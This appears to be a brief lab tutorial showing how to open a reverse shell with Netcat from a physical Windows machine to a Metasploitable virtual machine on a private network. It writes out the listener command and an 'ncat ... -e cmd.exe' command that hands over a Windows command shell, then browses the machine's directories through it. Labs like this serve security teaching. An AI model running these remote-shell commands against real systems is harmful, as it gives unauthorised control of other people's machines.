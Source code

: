 We demonstrate how to open a remote shell through `Netcat`, allowing us to navigate the directories of a physical machine using Metasploitable.

To open a reverse shell, we need the IP address of Metasploitable, from which we open the remote shell:

<img src="1.png" width="650">

The address is `192.168.1.227`.

Now we open a listener on port `5555` of the virtual machine using the command `nc -nlvp 5555`:

<img src="2.png" width="650">

From the physical machine, we run the command `ncat 192.168.1.227 5555 -e cmd.exe` to open a remote shell to Metasploitable's address:

<img src="3.png" width="650">

From Metasploitable, we can see that the connection was successful:

<img src="4.png" width="650">

Now we can navigate the directories of the physical machine from Metasploitable's shell using the `dir` command:

<img src="5.png" width="650">